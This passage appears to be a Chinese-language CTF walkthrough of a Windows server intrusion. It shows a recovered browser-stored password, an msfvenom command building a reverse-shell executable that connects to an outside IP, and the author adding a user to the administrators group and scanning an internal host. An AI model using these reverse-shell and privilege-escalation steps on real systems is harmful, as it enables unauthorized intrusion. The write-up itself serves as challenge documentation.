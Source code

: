 这里看了lemon师傅的wp，感觉66666，这里是因为提示跳步了，看lemon找ie的密码好6....

开始瞎翻，提示说桌面有东西，翻到桌面，有个东西看上去有用
```
ie-password.txt

==================================================
Entry Name        : https://www.baidu.com/
Type              : AutoComplete
Stored In         : Registry
User Name         : iamroot
Password          : abc@elk
Password Strength : Medium
==================================================


```

开始找东西

找到安装了xshell，有个内网地址，鬼知道是个啥

.......中间省略翻了一夜的文件...

实话说，没有目标的找东西好蛋疼...

## windows服务器入侵 ##

根据找到的一部分感觉有关系的文件搜索发现，妈卖批，webshell不够用，所以紧急学了一波msf

```
msfvenom -p windows/shell_reverse_tcp LHOST=115.28.78.16  LPORT=32452 -f exe -o /tmp/ddog2.exe
```

上传运行，然后监听

![image_1b6l5grlb13m1n5s1tf9804m1t13.png-6.1kB][3]

ipconfig

![image_1b6l64uhs1pu61fk35odp3h1uvh1g.png-34.4kB][4]

Net Localgroup

![image_1b6l7encusqp42g1mh2bltgmh1t.png-37.8kB][5]

加用户到admin权限组

![image_1b6l7j4l81eved3u1q5mbppq052a.png-39.5kB][6]

我记得上面提到过xshell里找到一个ip是172.31.5.95

用从别人那里抢来的大马扫端口，发现22是开着的，但是有了新的问题，在没有图形界面的情况下，怎么链接呢

目测内网渗透，要端口转发一波
主要是这篇文章
[http://www.vuln.cn/2791](http://www.vuln.cn/2791)


  [1]: http://static.zybuluo.com/LoRexxar/pf1t32io7xaoujii6f9rrrcq/image_1b6eu5f6bk4o3l9jsl1g991tsp9.png
  [2]: http://static.zybuluo.com/LoRexxar/zwrf4r3h19lpbvxfy9gqqb17/image_1b6eu5u3ifqo1ajt77k1fdci4rm.png
  [3]: http://static.zybuluo.com/LoRexxar/pccg6rlisy1ghel0n4s4ijig/image_1b6l5grlb13m1n5s1tf9804m1t13.png
  [4]: http://static.zybuluo.com/LoRexxar/wk776ofeeq3lj0ws0zsxsi0r/image_1b6l64uhs1pu61fk35odp3h1uvh1g.png
  [5]: http://static.zybuluo.com/LoRexxar/jyn5s78owlpauf91e9ebusza/image_1b6l7encusqp42g1mh2bltgmh1t.png
  [6]: http://static.zybuluo.com/LoRexxar/oii146dyawdch04zh6tlocc8/image_1b6l7j4l81eved3u1q5mbppq052a.png
  [7]: http://static.zybuluo.com/LoRexxar/dsayrn7zx9whlhacoe8ngirr/image_1b6lfnmphdos1buvbvg447ro32n.png
  [8]: http://static.zybuluo.com/LoRexxar/venhfwmygje88z05ve8org85/image_1b6lfon6c196us04k2r1i2g1v0l34.png
  [9]: http://static.zybuluo.com/LoRexxar/vkafi9ufrmgjbywat28vnyxb/image_1b6lgdu5fmarovecb41van1a0g3h.png
  [10]: http://static.zybuluo.com/LoRexxar/mrstoosa1un6h4e12nw2umz8/image_1b6lr2rq41f1f9l7140f13bd82h3u.png
